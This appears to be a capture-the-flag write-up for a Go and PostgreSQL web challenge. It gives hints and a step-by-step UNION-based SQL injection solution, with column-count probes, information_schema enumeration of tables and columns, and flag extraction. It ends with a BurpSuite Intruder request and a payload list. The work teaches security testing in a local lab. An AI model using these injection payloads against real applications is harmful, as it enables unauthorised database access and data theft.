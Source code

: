 # Possible Hints
1. App was written in Golang. Utilizes Gin-Gonic, "github.com/lib/pq" and "database/sql"
2. Database is Postgresql
3. Identify the vulnerable field and assess the return object based on field types 
4. Understanding the potential of SQLi is easy. Golang is a statically typed language; meaning the "receiver" object is static and does nto work with dynamic fields. So if "receiver" expects object TEST{string, bool}, the returning rows from db should be {string, bool}.
5. Exploit is possible with example payload ```/juice/5'§UNION SELECT '1','b'§;--``` (need to be url encoded)

# Solution

This is a fairly easy challenge with a twist of having a statiucally typed language at backend. Meaning that not only understanding the DB behind but also understanding ho API fetches from DB and crafts a response is crucial.

Some steps has been implemented to block SQLMap from directly solving the challenge

Example approach to solve:
1. Random payloads for understanding SQL statement escape. Example successful payload:

    ```/juice/5'UNION SELECT '1','b';-- ```

2. Testing for number of return fields for UNION SELECT in an automatic manner:

    ```
        UNION SELECT null;--
        UNION SELECT null,null;--
        UNION SELECT null,null,null;--
    ```
3. On the second try, there should be 200 response. Learning these, TABLE NAMES can be retrieved from DB:

    ``` UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='public' ```

4. After getting the table-of-interest here, schema for table-of-interest can be retrieved:

    ``` UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='super_secret_table' ```

5. A final payload can be crafted using the fields and with regards to response object (field numbers and datatypes)

    ``` UNION SELECT 1,flag FROM super_secret_table ```


## BurpSuite Intruder Instructions
Request Data (change HOST and other data):

```
    GET /juice/5'§§;-- HTTP/1.1
    Host: localhost:8080
    sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Linux"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: none
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Connection: close

```

Intruder Payload List

```
    UNION SELECT null;--
    UNION SELECT null,null;--
    UNION SELECT null,null,null;--
    UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='public'
    UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='super_secret_table'
    UNION SELECT 1,flag FROM super_secret_table
```